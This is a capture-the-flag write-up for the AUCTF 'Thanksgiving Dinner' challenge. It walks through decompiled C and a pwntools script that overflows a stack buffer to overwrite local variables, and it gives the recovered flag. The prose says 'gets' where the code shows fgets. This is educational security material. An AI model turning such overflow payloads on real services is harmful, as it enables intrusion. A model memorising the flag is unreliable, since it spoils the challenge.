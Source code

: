 # Thanksgiving Dinner

## Description

> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
> 
> nc challenges.auctf.com 30011
> 
> Note: ASLR is disabled for this challenge

The corresponding binary is given.

## Solution

When connecting to the challenge, we see a string, then we can give an input but nothing happens.

![thanksgiving](../images/thanksgiving.png)

Let's reverse the binary with [Ghidra](https://ghidra-sre.org/).

```c
undefined4 main(void)
{
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi!\nWelcome to my program... it\'s a little buggy...");
  vulnerable(puVar1);
  return 0;
}
```

`main` function calls function `vulnerable`...

```c
void vulnerable(void)
{
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

Function `vulnerable` defines a bunch of variables on the stack, prints some strings, asks for input with the highly vulnerable function `gets`, then checks the value of variables. If they match the predifined values, it prints the flag.

Therefore the exploit is quite straightforward: we overflow the buffer to replace the value of variables, and we're done.

```python
from pwn import *

sh = remote('challenges.auctf.com', 30011)

payload = b'0'*16 + b'\x2a\x00\x00\x00' + b'\x11\x11\x11\x11' + b'\x63\x74\x66\x00' + b'\xeb\xff\xff\xff' + b'\x37\x13\x00\x00'

sh.recvuntil("got!")
sh.sendline(payload)
sh.interactive()
```

Flag: `auctf{I_s@id_1_w@s_fu11!}`